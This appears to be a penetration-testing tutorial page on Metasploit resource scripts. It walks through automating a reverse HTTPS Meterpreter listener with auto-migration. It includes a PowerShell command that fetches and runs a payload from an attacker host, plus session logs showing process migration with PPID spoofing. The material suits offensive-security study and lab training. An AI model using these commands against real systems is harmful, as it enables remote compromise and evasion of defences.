 # Resource Scripts

Metasploit allows for workflow automation using **Resource Scripts** (`.rc` files). These are simple text files containing Metasploit console commands, which can also include Ruby code, to automate tasks—ideal for repetitive penetration testing actions.

## **Listener Setup**

Instead of manually setting up a handler every time we expect a reverse shell, we can create an `.rc` file:

{% code title="listener.rc" overflow="wrap" %}
```bash
# Set up a reverse HTTPS Meterpreter handler
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.45.232
set LPORT 443

# Auto-run a post module upon session creation
set AutoRunScript post/windows/manage/migrate

# Keep the listener alive after sessions close
set ExitOnSession false

# Start the handler in background mode
run -z -j
```
{% endcode %}

When we use the script, it launches the listener and prepares it to automatically migrate the session to another process once a connection is made.

```bash
$ sudo msfconsole -q -r listener.rc
[*] Processing listener.rc for ERB directives.
resource (listener.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (listener.rc)> set PAYLOAD windows/meterpreter_reverse_https
PAYLOAD => windows/meterpreter_reverse_https
resource (listener.rc)> set LHOST 192.168.45.232
LHOST => 192.168.45.232
resource (listener.rc)> set LPORT 443
LPORT => 443
resource (listener.rc)> set AutoRunScript post/windows/manage/migrate
AutoRunScript => post/windows/manage/migrate
resource (listener.rc)> set ExitOnSession false
ExitOnSession => false
resource (listener.rc)> run -z -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://192.168.45.232:443
```

{% code overflow="wrap" %}
```powershell
# Tansfering and triggering the payload from target
PS C:\Users\justin> iwr -uri http://192.168.45.232/met.exe -OutFile met.exe                                     PS C:\Users\justin> .\met.exe.
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Payload connects
[*] Session ID 1 (192.168.45.232:443 -> 192.168.241.202:58591) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against BRUTE2
[*] Current server process: met.exe (5240)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 6040
[+] Successfully migrated into process 6040
[*] Meterpreter session 1 opened (192.168.45.232:443 -> 192.168.241.202:58591) at 2025-04-24 12:55:10 +0300
```
{% endcode %}

Metasploit ships with many prebuilt `.rc` scripts.

```bash
$ ls /usr/share/metasploit-framework/scripts/resource/
```

* `autoexploit.rc` – automatically exploit known vulnerabilities
* `auto_cred_checker.rc` – brute force credential testing
* `basic_discovery.rc` – basic network recon
* `run_all_post.rc` – run all available post modules
* `smb_checks.rc` – check for SMB vulnerabilities

When planning to use multiple modules, we can define options globally across all modules. This is more flexible than `set`, which applies only to the current module.

```bash
setg RHOSTS 192.168.45.0/24
unsetg LPORT
```
